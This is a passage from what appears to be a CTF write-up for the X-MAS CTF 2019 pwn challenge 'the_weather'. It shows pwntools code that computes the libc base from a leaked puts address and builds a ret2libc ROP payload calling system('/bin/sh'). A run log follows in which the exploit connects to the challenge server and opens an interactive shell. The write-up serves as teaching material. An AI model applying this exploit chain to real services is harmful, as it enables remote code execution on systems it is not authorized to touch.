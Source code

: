 * Now that we have leaked the puts lets find libc base address and stuff we need
    ```python
        libc = ELF('./libc-2.27.so')

        # Search the puts and system offset in selected libc
        libc_puts_offset = libc.symbols['puts']
        libc_system_offset = libc.symbols['system']

        # Calculate libc base address
        lba = leaked_puts - libc_puts_offset
        log.success("Libc base address: " + hex(lba))

        # Calculate address of system and binsh string in current process
        system = p64(lba + libc_system_offset)
        bin_sh = p64(next(libc.search(b'/bin/sh')) + lba)
    ```

* Now finally our second payload looks like
    ```python
        payload = offset + ret + pop_rdi + bin_sh + system
    ```

* At last lets send the payload and get the shell
    ```python
        p.recvuntil('?')
        p.sendline(payload)
        p.recvline()
        p.recvline()
        p.interactive()
    ```


## Flag
* Lets run the [script](./express_ploit.py)
    ```shell
        viperx7@computer $ python express_ploit.py remote
        [+] Opening connection to challs.xmas.htsp.ro on port 12002: Done
        [*] '/home/utkarsh/ctfs/CTF_Writeups/2019/x-mas_ctf/Pwn/the_weather/binary'
            Arch:     amd64-64-little
            RELRO:    Partial RELRO
            Stack:    No canary found
            NX:       NX enabled
            PIE:      No PIE (0x400000)
        [+] puts leaked at :0x7faa074169c0
        [*] '/home/utkarsh/ctfs/CTF_Writeups/2019/x-mas_ctf/Pwn/the_weather/libc-2.27.so'
            Arch:     amd64-64-little
            RELRO:    Partial RELRO
            Stack:    Canary found
            NX:       NX enabled
            PIE:      PIE enabled
        [+] Libc base address: 0x7faa07396000
        [*] Switching to interactive mode
        $ ls
        bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
        $ cd home
        $ ls
        ctf
        $ cd ctf
        $ ls
        bin chall dev flag.txt generator.py lib lib64 template.c 